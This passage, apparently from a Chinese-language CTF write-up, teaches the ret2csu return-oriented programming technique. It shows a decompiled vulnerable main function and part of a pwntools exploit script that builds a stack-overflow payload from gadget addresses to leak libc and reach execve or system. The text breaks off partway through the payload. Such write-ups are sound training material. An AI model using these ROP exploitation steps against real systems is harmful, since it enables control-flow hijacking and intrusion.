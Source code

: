 对于csu模板的使用要分清情况

这里的话因为我们是要去调用execve而不是让他执行完毕

所以末尾的'a'*56可以删除

还有在fist_csu后面也不能加'a'*8

## 3.典型csu

题目和exp

链接：https://pan.baidu.com/s/18tRF62mbYF6ba_hBD5vWVA 
提取码：4567 
--来自百度网盘超级会员V2的分享

main函数

我们可以去用基础rop没问题但是这个例题只是为了更好的讲解csu的运用

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[32]; // [rsp+0h] [rbp-20h] BYREF

  vul(0LL, 0LL, 0LL);
  read(0, buf, 0x100uLL);
  return 0;
}
```

没太多好讲的就是基本的模板题目，主要的是如果不用onegadget的话

拼接system的记得在/bin/sh后面加上ret进行栈对齐。栈对齐一直很玄学对我来说噗嗤。

exp

```python
from pwn import *

libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')

sh = process("easycsu")

context.log_level = "DEBUG"

gadget1 = 0x00000000004011FE

gadget2 = 0x00000000004011E8

put_addr = 0x0000000000404018

libc_addr = 0x0000000000403ff0

start_addr = 0x0000000000401050

payload = (0x20 + 8) * 'a'

payload += p64(gadget1)

payload += 'a' * 8

payload += p64(0)

payload += p64(1)

payload += p64(put_addr)

payload += p64(0x0000000000404018) + p64(0x0000000000404018) + p64(0x0000000000404018)
```